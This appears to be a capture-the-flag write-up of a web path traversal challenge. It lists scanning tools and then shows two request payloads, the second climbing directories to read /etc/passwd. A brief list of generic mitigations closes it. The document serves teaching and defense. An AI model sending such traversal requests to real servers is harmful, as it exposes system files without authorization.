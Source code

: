 # Traversal Path

### Tools
Traversal Path using dirbuster, wfuzz and manually after not finding anything with automated tools.

### How to solve it

1. Firt we use ?page=../ and we get a message.
```
 SERVER_URL/?page=../
```
2. Later on we keep trying it until we get a different message, so we trye /etc/passswd and there is the flag!
```
SERVER_URL/?page=../../../../../../../etc/passwd
```
### How to protect it
Use permission control to avoid outside people from getting the file
Validade the user permission if possible
Use most recent web server version, this is an old problem that web server are getting better to fight against it
Use non super user to run the server, so if it is accessed they can't modify the folders
Encrypt and use passwords for more important data
